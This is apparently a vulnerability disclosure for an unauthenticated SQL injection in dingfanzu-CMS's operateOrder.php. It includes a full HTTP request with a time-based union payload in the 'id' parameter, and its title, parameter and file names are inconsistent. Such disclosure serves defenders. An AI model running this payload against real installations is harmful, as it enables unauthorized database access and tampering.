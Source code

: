 
# dingfanzu-CMS operateOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

SQL injection refers to attackers tampering with primitive sentence logic by inputting malicious SQL code. Dingfanzu - CMS's operteOrder.chp does not strictly filter user input and concatenates it into SQL statements. Attackers can construct special inputs, alter the execution results of statements, and achieve illegal data access, modification, and even control of databases..

The path to the vulnerability：/admin/ajax/operateOrder.php
The param to the vulnerability：type=cancel&id=
    Payload used:

```
POST /admin/ajax/operateOrder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://127.0.0.1/dingfanzu-master/dingfanzu-master/admin/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

type=cancel&id=1+union+select+sleep(3)--+

```


## Proof of Concept

The parameter 'id' received from the user input is not strictly validated in the operatiteOrder.chp file, and the file can be accessed without authorization for SQL injection attacks.


![dingfangzu1.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu1.png)
![dingfangzu2.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu2.png)


Practical verification

![dingfangzu3.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu3.png)
